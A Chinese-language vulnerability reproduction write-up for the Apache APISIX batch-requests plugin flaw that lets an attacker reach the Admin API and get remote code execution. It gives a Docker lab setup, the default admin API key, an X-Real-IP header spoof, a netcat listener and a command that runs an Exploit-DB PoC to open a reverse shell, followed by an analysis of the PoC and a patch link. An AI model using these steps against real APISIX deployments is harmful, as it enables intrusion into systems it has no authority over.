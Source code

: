 # 0x01 漏洞简介
Apache Apisix是美国阿帕奇（Apache）基金会的一个云原生的微服务API网关服务。该软件基于 OpenResty 和 etcd 来实现，具备动态路由和插件热加载，适合微服务体系下的 API 管理。

Apache APISIX 中存在安全漏洞，该漏洞源于产品的batch-requests插件未对用户的批处理请求进行有效限制。攻击者可通过该漏洞绕过Admin Api的限制。 
# 0x02 影响版本
Apache APISIX < 2.10.4
Apache APISIX < 2.12.1
# 0x03 漏洞分析
查看apisix 2.12.1的commit修复记录，发现官方的修复方法只是关闭了 batch-requests插件的默认开启。
> [https://github.com/apache/apisix/pull/6254/commits/d4f0d6ac065e9282b2deca08073bceb62aa13b4a](https://github.com/apache/apisix/pull/6254/commits/d4f0d6ac065e9282b2deca08073bceb62aa13b4a)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647830826808-bea6c04c-c73d-417b-9b79-6f2213526011.png#clientId=u36d5f521-1109-4&from=paste&id=u431033cd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=430&originWidth=815&originalType=binary&ratio=1&size=40646&status=done&style=none&taskId=u799b9164-355f-4659-a4eb-0be20dfd33d)

查看batch-requests插件的文档可知，该插件主要用http pipeline的方式批量进行多个接口请求。
> [https://github.com/apache/apisix/blob/ec0fc2ceaf04a20b0bd0ebdaad67296a1d3f621c/docs/zh/latest/plugins/batch-requests.md](https://github.com/apache/apisix/blob/ec0fc2ceaf04a20b0bd0ebdaad67296a1d3f621c/docs/zh/latest/plugins/batch-requests.md)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647831511556-39a5299e-9ffe-48c3-b44a-6f19c0c8fef4.png#clientId=u36d5f521-1109-4&from=paste&id=ufa4600a7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=614&originWidth=1165&originalType=binary&ratio=1&size=49068&status=done&style=none&taskId=u3537d00d-a6ab-49a4-865b-06c7fe126ac)

根据官方漏洞描述，我们可以将pipeline里的path修改为apisix的默认 Admin API ，以此来绕过 Admin API 对IP的限制，请求敏感API来进行RCE。
# 0x04 环境搭建
使用docker来快速部署Apache APISIX

1、从git仓库获取项目
```shell
git clone https://github.com/apache/apisix-docker.git
```
2、切换到apisix-docker/examples目录

3、编辑docker-compose.yml文件，把services->apisix下面的image: apache/apisix:2.12.1-alpine下面的改成image: apache/apisix:2.12.0-alpine这个，因为我们需要安装2.12.1之前的版本。

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647829192505-187564bd-d68e-4dd7-86e2-2261754f0377.png#clientId=u36d5f521-1109-4&from=paste&id=ud52d5a00&margin=%5Bobject%20Object%5D&name=image.png&originHeight=148&originWidth=645&originalType=binary&ratio=1&size=19671&status=done&style=none&taskId=ue17bb22e-49db-42da-8b62-97f317eb270)

4、使用docker-compose来安装和部署 docker 容器
```shell
docker-compose -p docker-apisix up -d
```
完成后，通过curl访问 API
```shell
curl 'http://127.0.0.1:9080/apisix/admin/routes?api_key=edd1c9f034335f136f87ad84b625c8f1'
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647833925237-69dd954d-ff92-4230-a17d-bce47222071a.png#clientId=u36d5f521-1109-4&from=paste&id=u07c538a8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=42&originWidth=1149&originalType=binary&ratio=1&size=18945&status=done&style=none&taskId=ue6479bd8-878c-4436-800b-12671afa15f)

默认的`api_key`可在容器的`/usr/local/apisix/conf/config.yaml`找到

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647831243680-ed54f6d0-a204-49b3-aaaa-5447dff66957.png#clientId=u36d5f521-1109-4&from=paste&id=uf7b96bc0&margin=%5Bobject%20Object%5D&name=image.png&originHeight=157&originWidth=697&originalType=binary&ratio=1&size=25042&status=done&style=none&taskId=u7f5d9070-28f8-4de6-8ba6-137ae033719)

# 0x05 漏洞复现

- [🔗 poc.py 链接](https://www.exploit-db.com/exploits/50829)
## 5.1 漏洞验证
在机器出网的情况下，可使用dnslog平台验证漏洞。
```shell
python3 poc.py http://192.168.0.198:9080/ xxxxx.ceye.io 80
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647839926243-13a479a3-2cf7-44f5-9bde-a0c5c0ad076e.png#clientId=u36d5f521-1109-4&from=paste&id=u44f0a957&margin=%5Bobject%20Object%5D&name=image.png&originHeight=143&originWidth=1494&originalType=binary&ratio=1&size=12791&status=done&style=none&taskId=u6ace040b-4648-49be-8eac-19279985279)

## 5.2 漏洞利用
攻击机开启监听
```shell
nc -lvvp 9999
```
运行脚本进行攻击
```shell
python3 poc.py http://RHOST:RPORT/ LHOST LPORT
```

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647832119752-6c940eaa-04cc-49ab-a20a-450aa140c080.png#clientId=u36d5f521-1109-4&from=paste&id=uee892eb0&margin=%5Bobject%20Object%5D&name=image.png&originHeight=207&originWidth=888&originalType=binary&ratio=1&size=36419&status=done&style=none&taskId=u20ed047b-a411-4149-917c-d172a3c8a72)

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647832034965-1eaa094f-359e-4f30-979d-46350e202013.png#clientId=u36d5f521-1109-4&from=paste&id=u30fefa5d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=409&originWidth=575&originalType=binary&ratio=1&size=78415&status=done&style=none&taskId=u959e23c8-8a17-487a-aed2-25e4ef1baa9)


# 0x06 POC 分析
分析poc脚本，看到向API发出了两个请求：

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647833144578-2fdc96b1-cd78-4b0a-b79d-a6e747590b09.png#clientId=u36d5f521-1109-4&from=paste&id=u7ba5a4de&margin=%5Bobject%20Object%5D&name=image.png&originHeight=69&originWidth=895&originalType=binary&ratio=1&size=17464&status=done&style=none&taskId=u529631db-27cb-46b3-898b-dfde1336f28)

查看POST请求中的`json_data`我们可以看到第一个请求只是植入了有效负载，第二个请求触发了它。
`os.execute`使用典型的 bash 反弹 shell 在脚本中执行命令。

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647833317619-94ce78e3-75f3-41f0-9b73-480463f2b825.png#clientId=u36d5f521-1109-4&from=paste&id=u7c659636&margin=%5Bobject%20Object%5D&name=image.png&originHeight=317&originWidth=1069&originalType=binary&ratio=1&size=50248&status=done&style=none&taskId=ud4449df3-8aa2-4d92-97b4-95317a7a363)

如上所述，此 RCE 漏洞的核心在于能够 **绕过 IP 限制 **和 **使用默认配置的 API **。
通过使用`X-Real-IP`标头设置来绕过 IP ，设置为127.0.0.1
设置`X-API-KEY`为默认的管理 API 令牌，即 `X-API-KEY：edd1c9f034335f136f87ad84b625c8f1`

运行poc后，如果我们使用 API 查看路由，我们会看到添加了一条新路由。
在`filter_func`字段是我们的反弹 shell。 `uri`字段设置为`/rms/fzxewh`。
这都是在第一个POST请求包的`json_data`中设置的。

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647834554617-ac600134-9295-434d-94e1-f511494dd461.png#clientId=u36d5f521-1109-4&from=paste&id=u04207688&margin=%5Bobject%20Object%5D&name=image.png&originHeight=765&originWidth=1387&originalType=binary&ratio=1&size=57034&status=done&style=none&taskId=ub35426e1-8042-4eed-aa9c-895ccf47b9f)


在第二个请求中，向那个端点发出一个请求，触发反弹 shell

![image.png](https://cdn.nlark.com/yuque/0/2022/png/22669825/1647837006779-63d2ef20-8354-4d08-872a-348b5f20495a.png#clientId=u36d5f521-1109-4&from=paste&id=u99b0d8ac&margin=%5Bobject%20Object%5D&name=image.png&originHeight=29&originWidth=670&originalType=binary&ratio=1&size=7921&status=done&style=none&taskId=u9c425762-c2f2-442d-bd33-f2f0bb3dd34)

# 0x07 修复建议
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：

- [https://lists.apache.org/thread/lcdqywz8zy94mdysk7p3gfdgn51jmt94](https://lists.apache.org/thread/lcdqywz8zy94mdysk7p3gfdgn51jmt94)
# 0x08 参考链接

- [http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202202-1030](http://www.cnnvd.org.cn/web/xxk/ldxqById.tag?CNNVD=CNNVD-202202-1030)
- [https://mp.weixin.qq.com/s?__biz=MzUxMjc0MTE3Mw==&mid=2247486971&idx=1&sn=286dd322821b335705ed975b3afa062b](https://mp.weixin.qq.com/s?__biz=MzUxMjc0MTE3Mw==&mid=2247486971&idx=1&sn=286dd322821b335705ed975b3afa062b)
- [https://blog.csdn.net/weixin_42353842/article/details/122943253](https://blog.csdn.net/weixin_42353842/article/details/122943253)
- [https://www.exploit-db.com/exploits/50829](https://www.exploit-db.com/exploits/50829)





